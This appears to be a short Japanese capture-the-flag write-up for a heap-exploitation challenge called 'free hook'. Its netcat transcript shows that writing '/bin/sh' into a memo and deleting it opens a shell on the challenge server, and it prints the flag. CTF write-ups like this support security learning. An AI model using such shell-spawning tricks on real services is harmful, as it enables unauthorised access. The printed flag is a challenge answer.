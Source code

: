# free hook (213pt Easy)

`nc free.pwn.wanictf.org 9002`

## ヒント
- free_hookの仕組みを理解する必要があります。

## 使用ツール例
- netcat (nc)

## gccのセキュリティ保護
- Partial RELocation ReadOnly (RELRO)
- Stack Smash Protection (SSP)無効
- No eXecute bit(NX)有効
- Position Independent Executable (PIE)無効

# やったこと

```
$ nc free.pwn.wanictf.org 9002
1: add memo
2: view memo
9: del memo
command?: 2
index?[0-9]: 1
Segmentation fault (core dumped)
```

メモ帳アプリみたいです．

存在しないindexのメモを見ようとするとSegmentation faultが発生しました．

おもむろに，メモ帳に"/bin/sh"を書いたのち，削除してみるとなんかshellが立ち上がりました．

```
$ nc free.pwn.wanictf.org 9002
1: add memo
2: view memo
9: del memo
command?: 1
index?[0-9]: 1
memo?: /bin/sh



[[[list memos]]]
***** 1 *****
/bin/sh


1: add memo
2: view memo
9: del memo
command?: 9
index?[0-9]: 1
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{malloc_hook_is_a_tech_for_heap_exploitation}
```

flag.txtを見るとフラグがありました．

# フラグ
FLAG{malloc_hook_is_a_tech_for_heap_exploitation}

# メモ
何故かとれてしまった．後で復習します．
